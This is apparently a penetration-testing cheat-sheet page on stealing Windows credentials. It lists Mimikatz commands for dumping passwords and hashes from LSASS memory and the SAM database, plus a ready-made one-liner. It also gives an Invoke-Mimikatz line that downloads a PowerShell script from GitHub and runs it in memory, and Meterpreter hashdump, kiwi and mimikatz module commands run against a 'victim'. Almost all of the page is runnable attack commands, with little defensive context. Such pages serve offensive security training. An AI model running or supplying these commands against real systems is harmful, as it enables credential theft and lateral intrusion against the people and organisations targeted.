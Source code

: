 # Stealing Credentials

## Credentials Mimikatz

```bash
#Elevate Privileges to extract the credentials
privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins
token::elevate
#Extract from lsass (memory)
sekurlsa::logonpasswords
#Extract from SAM
lsadump::sam
#One liner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

**Find other things that Mimikatz can do in** [**this page**](credentials-mimikatz.md)**.**

### Invoke-Mimikatz

```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

[**Learn about some possible credentials protections here.**](credentials-protections.md) **This protections could prevent Mimikatz from extracting some credentials.**

## Credentials with Meterpreter

Use the [**Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **that** I have created to **search for passwords and hashes** inside the victim.

```bash
#Credentials from SAM
post/windows/gather/smart_hashdump
hashdump

#Using kiwi module
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"

#Using Mimikatz module
load mimikatz
mimikatz_command -f "sekurlsa::logonpasswords"
mimikatz_command -f "lsadump::sam"
```
